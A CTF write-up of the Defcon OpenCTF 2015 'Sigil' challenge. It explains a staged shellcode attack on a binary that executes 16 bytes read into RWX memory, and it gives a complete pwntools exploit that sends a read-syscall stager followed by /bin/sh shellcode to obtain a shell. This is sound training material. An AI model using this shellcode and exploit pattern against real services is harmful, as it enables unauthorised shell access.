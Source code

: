 ```yaml
---
layout: post
title:  "Defcon OpenCTF 2015 - Sigil"
date:   2015-08-13 18:03:59
categories: CTF Pwnable
---
```


Below is the main funciton of Sigil:

![Sigil main](/assets/images/sigil.png)

The following occurs:

* memory region is set to `read-write-execute` permissions
* read() of length 16 into that memory region
* call to the buffer just read

The gameplan for this exploit is to send an initial payload which will call `read()` into the `RWX` memory region. From here, we send the actual `/bin/sh` payload which will continue executing after our stage 1 payload.

We can call `read` via `syscall` to make this shellcode small. The following must be setup for this to work:

* rax - 0
* rdi - file descriptor to read from, i.e. stdin
* rsi - destination buffer
* rdx - 0x30 : Arbitrary length to read

The `rax` register is already set to `0` for our `read` syscall, so no modification needs to happen there. The `rdi` register needs to be a `0` in order to read from stdin, so a simple `xor rdi, rdi` will accomplish this for us. The destination buffer is already stored in the rdx register when our shellcode is run, which means we only need to execute a `mov rsi, rdx` in order to setup our destination buffer location. Lastly, we need to set a read length, and a simple `mov rdx, 0x30` will work.

The final stage 1 shellcode is below:

```
mov rsi, rdx  # rdx already contains our buffer location
mov edx, 0x30 # set our read length
add rsi, 10   # Move our buffer addr, so we don't overwrite our initial shellcode
syscall       # Execute read
```

From here, we send a second shellcode containing our generic `/bin/sh` shellcode in order to receive our shell.

## Final Exploit

```python
from pwn import * # pip install --upgrade git+https://github.com/binjitsu/binjitsu.git
context(arch='amd64')

HOST = '127.0.0.1'
PORT = 4444

# r = process('./sigil')
r = remote(HOST, PORT)

# Debug helper
"""
gdb.attach(r, '''
bp 40062a
c
''')
"""

"""
read() syscall
rax - 0
rdi - file descriptor to read from - 0 => stdin
rsi - destination buffer
rdx - length to read
"""

"""
rax is already 0 for syscall read
rdi is already 0
'xor rdi, rdi', # Read from stdin (file descriptor 0)
"""
shellcode = asm('\n'.join([
'mov rsi, rdx', # rdx already contains our buffer location
'mov edx, 0x30',
'add rsi, 10',
'syscall'
]))

# Ensure we send a full 16 byte Stage 1 payload.
shellcode = shellcode.rjust(16, '\x90')
log.info("Shellcode:[{}]  {}".format(len(shellcode), shellcode))

# Create second payload - simple /bin/sh payload
# Add a beginning nop sled, because why not?
log.info("Stage2: {}".format(shellcraft.sh()))
sc = asm(shellcraft.sh())
sc = sc.rjust(0x30, '\x90')
log.info("Stage2: {}".format(sc))

r.sendline(shellcode + sc)

r.interactive()
```
